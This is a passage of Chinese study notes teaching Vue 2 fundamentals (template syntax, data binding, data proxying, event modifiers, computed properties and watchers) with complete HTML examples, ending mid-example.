




# Vue核心

## 1 Vue 简介

### 1 官网

1 英文官网: https://vuejs.org/

2 中文官网: https://cn.vuejs.org/


### 2 介绍与描述

1 动态构建用户界面的**渐进式** JavaScript 框架

2 作者: 尤雨溪


### 3 Vue 的特点

1 遵循 **MVVM** 模式

2 编码简洁, 体积小, 运行效率高, 适合移动/PC 端开发

3 它本身只关注 UI, 也可以引入其它第三方库开发项目


### 4 与其它 JS 框架的关联

1 借鉴 Angular 的**模板**和**数据绑定**技术

2 借鉴 React 的**组件化**和**虚拟 DOM ** 技术


### 5 Vue 周边库

1 vue-cli: vue 脚手架

2 vue-resource

3 axios

4 vue-router: 路由

5 vuex: 状态管理

6 element-ui: 基于 vue 的 UI 组件库(PC 端)

……  


## 2 初识 Vue

1 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象；
2 root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法；
3 root容器里的代码被称为【Vue模板】；
4 Vue实例和容器是一一对应的；
5 真实开发中只有一个Vue实例，并且会配合着组件一起使用；
6 `{{xxx}}`中的`xxx`要写**js表达式**，且`xxx`可以自动读取到data中的所有属性；
7 一旦data中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

注意区分：js表达式 和 js代码(语句)
1 表达式：一个表达式会产生一个值，可以放在任何一个需要值的地方：
(1) `a`
(2) `a+b`
(3) `demo(1)`
(4) `x === y ? 'a' : 'b'`

2 js代码(语句)
(1) `if(){}`
(2) `for(){}`

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>初识Vue</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器 -->
		<div id="demo">
			<h1>Hello，{{name.toUpperCase()}}，{{address}}</h1>
		</div>

		<script type="text/javascript" >
			Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

			//创建Vue实例
			new Vue({
				el:'#demo', //el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串。
				data:{ //data中用于存储数据，数据供el所指定的容器去使用，值我们暂时先写成一个对象。
					name:'atguigu',
					address:'北京'
				}
			})

		</script>
	</body>
</html>
```


## 3 模板语法  

### 1 效果

Vue模板语法有2大类：

1 插值语法：
功能：用于解析标签体内容。
写法：`{{xxx}}`，`xxx`是js表达式，且可以直接读取到data中的所有属性。

2 指令语法：
功能：用于解析标签（包括：标签属性、标签体内容、绑定事件.....）。
举例：

```
v-bind:href="xxx"
```

 或  简写为 

```
:href="xxx"
```

`xxx`同样要写js表达式，
且可以直接读取到data中的所有属性。
备注：Vue中有很多的指令，且形式都是：`v-????`，此处我们只是拿v-bind举个例子。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>模板语法</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>插值语法</h1>
			<h3>你好，{{name}}</h3>
			<hr/>
			<h1>指令语法</h1>
			<a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
			<a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'jack',
				school:{
					name:'尚硅谷',
					url:'http://www.atguigu.com',
				}
			}
		})
	</script>
</html>
```


### 2 模板的理解

html 中包含了一些 JS 语法代码，语法分为两种，分别为：

1 插值语法（双大括号表达式）

2 指令（以 v-开头）


### 3 插值语法  

1 功能: 用于解析标签体内容

2 语法: `{{xxx}}` ，`xxxx` 会作为 js 表达式解析


### 4 指令语法  

1 功能: 解析标签属性、解析标签体内容、绑定事件

2 举例：`v-bind:href = 'xxxx'` ，`xxxx` 会作为 js 表达式被解析

3 说明：Vue 中有有很多的指令，此处只是用 v-bind 举个例子


## 4 数据绑定  

Vue中有2种数据绑定的方式：
1 单向绑定(v-bind)：数据只能从data流向页面。

```html
单向数据绑定：<input type="text" v-bind:value="name"><br/>
```

可以简写为:

```html
单向数据绑定：<input type="text" :value="name"><br/>
```


2 双向绑定(v-model)：数据不仅能从data流向页面，还可以从页面流向data。

```html
双向数据绑定：<input type="text" v-model:value="name"><br/>
```

`v-model:value` 可以简写为 v-model，因为 v-model 默认收集的就是value值

```html
双向数据绑定：<input type="text" v-model="name"><br/>
```

双向绑定一般都应用在表单类元素上（如：input、select等）

如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上

```html
<h2 v-model:x="name">你好啊</h2>
```


### 1 单向数据绑定  

1 语法：v-bind:href ="xxx" 或简写为 :href

2 特点：数据只能从 data 流向页面


### 2 双向数据绑定  

1 语法：v-mode:value="xxx" 或简写为 v-model="xxx"

2 特点：数据不仅能从 data 流向页面，还能从页面流向 data


### 3 el与data的两种写法

data与el的2种写法
1 el有2种写法
(1) new Vue时候配置el属性。

```javascript
new Vue({
  el:'#root',
  data:{
    name:'尚硅谷'
  }
})
```

(2) 先创建Vue实例，随后再通过`vm.$mount('#root')`指定el的值。

```javascript
const v = new Vue({
    data: {
        name: '尚硅谷'
    }
})
v.$mount('#root')
```


2 data有2种写法
(1) 对象式

```javascript
new Vue({
    el: '#root',
    data: {
        name: '尚硅谷'
    }
})
```

(2) 函数式

```javascript
new Vue({
    el: '#root',
    data() {
        return {
            name: '尚硅谷'
        }
    }
})
```

如何选择：目前哪种写法都可以，以后学习到组件时，data必须使用函数式，否则会报错。


3 一个重要的原则：
由Vue管理的函数，一定不要写箭头函数，一旦写了箭头函数，this就不再是Vue实例了。


## 5 MVVM 模型

1 M：模型(Model) ：对应 data 中的数据

2 V：视图(View) ：模板

3 VM：视图模型(ViewModel) ： Vue 实例对象


观察发现：
1 data中所有的属性，最后都出现在了vm身上。
2 vm身上所有的属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用。

```html
<div id="root">
    <h1>学校名称：{{name}}</h1>
    <h1>学校地址：{{address}}</h1>
    <h1>测试一下1：{{1+1}}</h1>
    <h1>测试一下2：{{$options}}</h1>
    <h1>测试一下3：{{$emit}}</h1>
    <h1>测试一下4：{{_c}}</h1>
</div>
```



## 6 数据代理

### Object.defineProperty()

作用: 用于给对象添加字段

示例:

```javascript
let person = {
    name: '张三',
    sex: '男',
}

Object.defineProperty(person, 'age', {
    value: 18,
})

console.log(Object.keys(person))

for (let key in person) {
    console.log(key, "=>", person[key])
}

console.log(person)
```

直接运行输出:

```json
[ 'name', 'sex' ]
name => 张三               
sex => 男                  
{ name: '张三', sex: '男' }
```

使用debug模式可以看到新添加的字段

```shell
Object {name: "张三", sex: "男", age: 18}
```

原因是使用 `Object.defineProperty()` 添加的字段模式是不可枚举的


方法的第三个参数是选项, 具体如下:

```javascript
let number = 18
Object.defineProperty(person, 'age', {
    value: 18,

    //控制属性是否可以枚举，默认值是false
    enumerable: true, 
    
    //控制属性是否可以被修改，默认值是false
    writable: true, 
    
    //控制属性是否可以被删除，默认值是false
    configurable: true, 

    //当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
    get() {
        console.log('有人读取age属性了')
        return number
    },

    //当有人修改person的age属性时，set函数(setter)就会被调用，且会收到修改的具体值
    set(value) {
        console.log('有人修改了age属性，且值是', value)
        number = value
    }

})
```

这里通过 person的age字段代理了 number 的值


### 数据代理

通过一个对象代理对另一个对象中属性的操作（读/写）

```javascript
let obj = {x: 100}
let obj2 = {y: 200}

Object.defineProperty(obj2, 'x', {
    get() {
        return obj.x
    },
    set(value) {
        obj.x = value
    }
})
```


### Vue中的数据代理

通过vm对象来代理data对象中属性的操作（读/写）


Vue中数据代理的好处：
更加方便的操作data中的数据


基本原理：
通过`Object.defineProperty()`把data对象中所有属性添加到vm上。
为每一个添加到vm上的属性，都指定一个 `getter` / `setter`。
在 getter / setter 内部去操作（读/写）data中对应的属性。


```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>Vue中的数据代理</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>学校名称：{{ name }}</h2>
    <h2>学校地址：{{ address }}</h2>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
    data = {
        name: '尚硅谷',
        address: '宏福科技园'
    }
    
    const vm = new Vue({
        el: '#root',
        data
    })
</script>
</html>
```

在浏览器中测试

```javascript
vm._data === data
```

返回 true ,说明 vm中的 _data 就是 传递给 `new Vue()` 中的 data

 


## 7 事件处理  

### 1 事件的基本使用

1 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名；
2 事件的回调需要配置在methods对象中，最终会在vm上；
3 methods中配置的函数，不要用箭头函数！否则this就不是vm了；
4 methods中配置的函数，都是被Vue所管理的函数，this的指向是vm 或 组件实例对象；
5 @click="demo" 和 @click="demo($event)" 效果一致，但后者可以传参；


1 绑定监听

1 v-on:xxx="fun"

```html
<button v-on:click="showInfo">点我提示信息</button>
```

2 @xxx="fun"

```html
<button @click="showInfo1">点我提示信息1（不传参）</button>
```

3 @xxx="fun(参数)"

```html
<button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
```

4 默认事件形参: event


5 隐含属性对象: $event


### 2 事件修饰符

Vue中的事件修饰符：


1 prevent：阻止默认事件（常用）；

```html
<div class="demo1" @click="showInfo">
	<a href="http://www.atguigu.com" @click.prevent="showInfo">点我提示信息</a>
</div>
```

等价于

```javascript
event.preventDefault()
```


2 stop：阻止事件冒泡（常用）；

```html
<div class="demo1" @click="showInfo">
    <button @click.stop="showInfo">点我提示信息</button>
</div>
```

等价于

```javascript
event.stopPropagation()
```

修饰符可以连续写

```html
<div class="demo1" @click="showInfo">
	<a href="http://www.atguigu.com" @click.prevent.stop="showInfo">点我提示信息</a>
</div>
```


3 once：事件只触发一次（常用）；

```html
<button @click.once="showInfo">点我提示信息</button>
```


4 capture：使用事件的捕获模式；

```html
<div class="box1" @click.capture="showMsg(1)">
    div1
    <div class="box2" @click="showMsg(2)">
        div2
    </div>
</div>
```


5 self：只有event.target是当前操作的元素时才触发事件；

```html
<div class="demo1" @click.self="showInfo">
    <button @click="showInfo">点我提示信息</button>
</div>
```


6 passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

```html
<ul @wheel.passive="demo" class="list">
    <li>1</li>
    <li>2</li>
    <li>3</li>
    <li>4</li>
</ul>
```

@wheel  ( 鼠标 ) 滚轮事件, passive模式可以先滚轮, 再处理事件, 这样可以防止事件处理导致滚轮卡顿

@scroll ( 界面 ) 滚动条的滚动事件


### 3 键盘事件


```html
<input type="text" placeholder="按下回车提示输入" @keydown.enter="showInfo">
```


1 Vue中常用的按键别名：
回车 => enter
删除 => delete (捕获“删除(delete)”和“退格(backspace <- )”键)
退出 => esc
空格 => space
换行 => tab (特殊，必须配合keydown去使用)
上 => up
下 => down
左 => left
右 => right

注意 tab 键会将当前控件的焦点移出, 所以绑定keyup事件无效, 要绑定 keydown 事件


2 Vue未提供别名的按键，可以使用按键原始的key值去绑定，但注意要转为kebab-case（短横线命名）

如 CapsLock 在vue里使用 caps-lock

```html
<input type="text" placeholder="按下回车提示输入" @keydown.caps-lock="showInfo">
```


3 系统修饰键（用法特殊）：ctrl、alt、shift、meta

(1) 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，ctrl的keyup事件才被触发。
(2) 配合keydown使用：正常触发事件。


组合键的使用:

```html
<input type="text" placeholder="按下回车提示输入" @keyup.ctrl.y="showInfo">
```


4 也可以使用keyCode去指定具体的按键（不推荐）


5 Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```javascript
Vue.config.keyCodes.huiche = 13 //定义了一个别名按键
```

完整示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>键盘事件</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2>欢迎来到{{name}}学习</h2>
			<input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		Vue.config.keyCodes.huiche = 13 //定义了一个别名按键, 给 enter 起别名 huiche

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			},
			methods: {
				showInfo(e){
					console.log(e.key,e.keyCode)
					console.log(e.target.value)
				}
			},
		})
	</script>
</html>
```


## 8 计算属性 computed

计算属性：
1 定义：要用的属性不存在，要通过已有属性计算得来。


2 原理：底层借助了Objcet.defineproperty方法提供的getter和setter。

get有什么作用？

当有人读取fullName时，get就会被调用，且返回值就作为fullName的值


get什么时候调用？

1.初次读取fullName时。

2.所依赖的数据发生变化时。

计算属性做了对结果的缓存, 所依赖的数据不变的情况下, 多次读取数据, get只会调用一次


set什么时候调用? 

当fullName被修改时。


3 get函数什么时候执行？
(1) 初次读取时会执行一次。
(2) 当依赖的数据发生改变时会被再次调用。


4 优势：与methods实现相比，内部有**缓存机制**（复用），效率更高，调试方便。


5 备注：
1 计算属性最终会出现在vm上，直接读取使用即可。
2 如果计算属性要被修改，那必须写set函数去响应修改，且set中要引起计算时依赖的数据发生改变。


案例

1 插值语法实现

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_插值语法实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{firstName}}-{{lastName}}</span>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三'
			}
		})
	</script>
</html>
```


2 method 方式实现

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_methods实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{fullName()}}</span>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三'
			},
			methods: {
				fullName(){
					console.log('@---fullName')
					return this.firstName + '-' + this.lastName
				}
			},
		})
	</script>
</html>
```

只要数据发生改变, vue就会重新解析模版, 重新解析模版时, 只要遇到插值语法的方法就一定会重新调用一遍

method方式每次读取数据都会调用一次, 没有缓存机制


3 计算属性

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_计算属性实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			测试：<input type="text" v-model="x"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
			全名：<span>{{fullName}}</span>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
				x:'你好'
			},
			methods: {
				demo(){
					
				}
			},
			computed:{
				fullName:{
					//get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
					//get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
					get(){
						console.log('get被调用了')
						// console.log(this) //此处的this是vm
						return this.firstName + '-' + this.lastName
					},
					//set什么时候调用? 当fullName被修改时。
					set(value){
						console.log('set',value)
						const arr = value.split('-')
						this.firstName = arr[0]
						this.lastName = arr[1]
					}
                    
                    // get set 都是被vue管理的函数, this就是 vm 对象, 不要使用箭头函数,就使用普通函数
				}
			}
		})
	</script>
</html>
```


4 计算属性的简写

一般计算属性只读取, 不修改, 不需要set . 如果确定计算属性只考虑读取, 不考虑修改, 计算属性可以简写如下:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>姓名案例_计算属性实现</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			姓：<input type="text" v-model="firstName"> <br/><br/>
			名：<input type="text" v-model="lastName"> <br/><br/>
			全名：<span>{{fullName}}</span> <br/><br/>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				firstName:'张',
				lastName:'三',
			},
			computed:{
				//完整写法
				/* fullName:{
					get(){
						console.log('get被调用了')
						return this.firstName + '-' + this.lastName
					},
					set(value){
						console.log('set',value)
						const arr = value.split('-')
						this.firstName = arr[0]
						this.lastName = arr[1]
					}
				} */
				//简写
				fullName(){
					console.log('get被调用了')
					return this.firstName + '-' + this.lastName
				}
			}
		})
	</script>
</html>
```


## 9 监视属性 watch  

1 通过通过 vm 对象的$watch()或 watch 配置来监视指定的属性

```javascript
watch: {
    isHot: {
        immediate: true, //初始化时让handler调用一下, 此时oldValue是 undefined
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue, oldValue) {
            console.log('isHot被修改了', newValue, oldValue)
        }
    }
}
```

或者

```javascript
vm.$watch('isHot', {
    immediate: true, //初始化时让handler调用一下
    //handler什么时候调用？当isHot发生改变时。
    handler(newValue, oldValue) {
        console.log('isHot被修改了', newValue, oldValue)
    }
})
```

2 当属性变化时, 回调函数自动调用, 在函数内部进行计算


示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>天气案例</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>今天天气很{{info}}</h2>
			<!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
			<!-- <button @click="isHot = !isHot">切换天气</button> -->
			<button @click="changeWeather">切换天气</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		const vm = new Vue({
			el:'#root',
			data:{
				isHot:true,
			},
			computed:{
				info(){
					return this.isHot ? '炎热' : '凉爽'
				}
			},
			methods: {
				changeWeather(){
					this.isHot = !this.isHot
				}
			},
		})
	</script>
</html>
```


### 使用监视属性 watch

1 当被监视的属性变化时, 回调函数自动调用, 进行相关操作

2 监视的属性必须存在，才能进行监视！！

3 监视属性不仅可以监视 data 中的数据, 也可以监视计算属性


监视的两种写法：
(1) new Vue时传入watch配置
(2) 通过vm.$watch监视


```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>天气案例_监视属性</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!--
        监视属性watch：
            1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作
            2.监视的属性必须存在，才能进行监视！！
            3.监视的两种写法：
                    (1).new Vue时传入watch配置
                    (2).通过vm.$watch监视
 -->
<!-- 准备好一个容器-->
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            isHot: {
                immediate: true, //初始化时让handler调用一下, 此时oldValue是 undefined
                //handler什么时候调用？当isHot发生改变时。
                handler(newValue, oldValue) {
                    console.log('isHot被修改了', newValue, oldValue)
                }
            },
            // 监视属性不仅可以监视 data 中的数据, 也可以监视计算属性
            info: {
                immediate: true, //初始化时让handler调用一下, 此时oldValue是 undefined
                //handler什么时候调用？当isHot发生改变时。
                handler(newValue, oldValue) {
                    console.log('info 被修改了', newValue, oldValue)
                }
            }
        }
    })

    /*
    vm.$watch('isHot', {
        immediate: true, //初始化时让handler调用一下
        //handler什么时候调用？当isHot发生改变时。
        handler(newValue, oldValue) {
            console.log('isHot被修改了', newValue, oldValue)
        }
    })
    */
</script>
</html>
```


### 深度监控

(1).Vue中的watch默认不监测对象内部值的改变（一层）。
(2).配置deep:true可以监测对象内部值改变（多层）。


备注：
(1).Vue自身可以监测对象内部值的改变，但Vue提供的watch默认不可以！
(2).使用watch时根据数据的具体结构，决定是否采用深度监视。


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>天气案例_深度监视</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
深度监视：

		 -->
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>今天天气很{{info}}</h2>
			<button @click="changeWeather">切换天气</button>
			<hr/>
			<h3>a的值是:{{numbers.a}}</h3>
			<button @click="numbers.a++">点我让a+1</button>
			<h3>b的值是:{{numbers.b}}</h3>
			<button @click="numbers.b++">点我让b+1</button>
			<button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
			{{numbers.c.d.e}}
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		const vm = new Vue({
			el:'#root',
			data:{
				isHot:true,
				numbers:{
					a:1,
					b:1,
					c:{
						d:{
							e:100
						}
					}
				}
			},
			computed:{
				info(){
					return this.isHot ? '炎热' : '凉爽'
				}
			},
			methods: {
				changeWeather(){
					this.isHot = !this.isHot
				}
			},
			watch:{
				isHot:{
					// immediate:true, //初始化时让handler调用一下
					//handler什么时候调用？当isHot发生改变时。
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				},
				
                //监视多级结构中某个属性的变化
				'numbers.a':{
					handler(){
						console.log('a被改变了')
					}
				}
                
				//监视多级结构中所有属性的变化
				numbers:{
					deep:true,
					handler(){
						console.log('numbers改变了')
					}
				}
			}
		})

	</script>
</html>
```


### 监视属性的简写

如果不需要 immediate 和 deep 配置, 只需要 handler 时, 可以使用简写

```javascript
watch:{
    isHot(newValue,oldValue){
        console.log('isHot被修改了',newValue,oldValue,this)
    }
}
```

或者

```javascript
vm.$watch('isHot',function(newValue,oldValue){
    console.log('isHot被修改了',newValue,oldValue,this)
})
```


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>天气案例_监视属性_简写</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2>今天天气很{{info}}</h2>
			<button @click="changeWeather">切换天气</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		const vm = new Vue({
			el:'#root',
			data:{
				isHot:true,
			},
			computed:{
				info(){
					return this.isHot ? '炎热' : '凉爽'
				}
			},
			methods: {
				changeWeather(){
					this.isHot = !this.isHot
				}
			},
			watch:{
				//正常写法
				/* isHot:{
					// immediate:true, //初始化时让handler调用一下
					// deep:true,//深度监视
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				}, */
				//简写
